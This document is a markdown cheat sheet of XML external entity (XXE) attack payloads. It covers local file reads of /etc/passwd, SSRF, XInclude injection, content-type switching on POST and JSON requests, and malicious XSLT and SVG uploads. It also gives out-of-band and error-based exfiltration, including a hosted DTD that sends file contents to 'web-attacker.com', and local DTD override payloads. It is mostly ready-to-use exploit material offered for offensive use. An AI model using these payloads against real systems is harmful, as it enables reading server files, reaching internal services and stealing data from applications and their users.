 # XXE

## Exploits

### File Retrieval

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file://<path>"> ]>

<field>&xxe;</field>
```

### SSRF

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://<url>/"> ]>

<field>&xxe;</field>
```

## XInclude Attack

Useful for when the attacker doesn't control the whole XML structure but can only insert values in the fields (for instance as values returned from SOAP requests or populated from forms)

Read local file

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

SSRF

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="<url>"/></foo>
```

Example request

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

var=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="<url>"/></foo>
```

## XXE Through Modified Content-Type

In same cases it might be possible to trigger XXE vulnerabilities in requests that are not formatted as XML by setting the content type header to text/xml and rewriting the body of the request in order to be digested by an XML parser

### POST Request

Original request

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

var=value
```

Modified request

```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><var>value</var>
```

### JSON Body

Original request

```
POST /action HTTP/1.0
Content-Type: application/json
Content-Length: 38

{"search":"name","value":"val"}
```

Modified request

```
POST /action HTTP/1.0
Content-Type: application/xml
Content-Length: 288

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<search>name</search>
<value>&xxe;</value>
</root>
```

## XXE Through file upload

### XSLT

```
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
   <xsl:template match="/">
       <xsl:value-of select="document('<path>')">
   </xsl:value-of></xsl:template>
</xsl:stylesheet>
```

### SVG

Text will appear within the image

```
<?xml version="1.0" standalone="yes"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file://<path>" > ]>
<svg width="256px" height="256px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="12" x="0" y="16">&xxe;</text>
</svg>
```

## Parametric payloads

### SSRF

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "<url>"> %xxe; ]>
```

### File exfiltration

Hosted DTD

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Actual payload

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http:<url to dtd file>"> %xxe;]>
```

### Error based file exfiltration

Hosted DTD

```
<!ENTITY % file SYSTEM "file://<file>">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

### Error based with DTD override

Test if DTD exists on target

```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file://<local dtd>">
%local_dtd;
]>
```

Payload

```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file://<path to local dtd>">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file://<target file>">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```



